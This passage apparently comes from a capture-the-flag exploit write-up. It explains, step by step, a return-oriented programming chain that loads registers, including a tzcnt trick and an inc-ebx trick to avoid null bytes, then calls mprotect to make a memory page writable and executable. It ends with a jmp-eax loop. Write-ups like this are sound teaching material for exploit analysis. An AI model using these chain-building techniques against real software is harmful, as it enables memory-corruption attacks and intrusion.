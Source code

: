 ###### ECX
Setting ecx was easiest - the value has no null bytes, and can be popped directly
using one of the gadgets we'd already had for the arbitrary write:
`pop ecx; pop edx; ret`

###### EDX
Next was setting edx with the RWX prot value of 7, using the following chain:
```
pop eax; ret 
0xffffff7f
xor eax, 0xffffffff; ret
mov edx, eax; xor eax, eax; tzcnt edx, edx; add eax, edx; ret
```
The first 2 gadgets are pretty self-explanatory, and result in the value of '`0x80`'
inside of eax.
Next, I needed to get the value from eax to edx - but there was no direct `mov` or `xchg`.
I did find this gadget, however. 
`mov edx, eax; xor eax, eax; tzcnt edx, edx; add eax, edx; ret`
This places causes `tlcnt` to be ran on edx, which counts the number of 'trailing 0's'
in the src register, and places the count in the dst - edx for both.
Since `0x80 = 0b10000000`, there are 7 zeroes! 
Now edx is set

###### EBX
EBX ended up being relatively simple too.
It needs to hold the value of the page we want to modify the permissions of
(`0x0804a000`)
I found an `inc ebx` gadget, so I just popped the address of the page minus one
into ebx, then incremented it.
```
pop ebx; ret 
0x08049fff
inc ebx; ret
```

###### EAX
Finally, eax needs the syscall number - `0x7d`
This one was pretty trivial using the `xor eax, 0xffffffff` gadget.
```
pop eax; ret 
0xffffff82
xor eax, 0xffffffff
```

###### SYSCALL
Finally, we make the syscall!
This version of libc used the gs register to do so, but there were plenty
of gadgets to make a syscall.
I found this gadget:
`call dword gs:[0x10]; ret`

#### Infinite Loop
This one was easy - just popped the address of a 'jmp eax' instruction into eax,
then let it do its thing.
```
pop eax; ret
ADDR_OF_JMP_EAX
jmp eax
```
